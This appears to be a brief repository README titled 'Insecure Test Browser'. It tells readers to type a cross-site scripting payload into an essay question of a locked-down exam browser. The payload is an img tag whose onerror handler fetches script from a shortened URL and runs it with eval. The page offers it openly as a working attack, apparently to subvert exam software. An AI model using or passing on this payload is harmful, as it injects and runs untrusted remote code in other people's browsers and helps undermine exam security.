 # Insecure Test Browser
XSS in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/securexss").then(r => r.text()).then(eval);'>
```
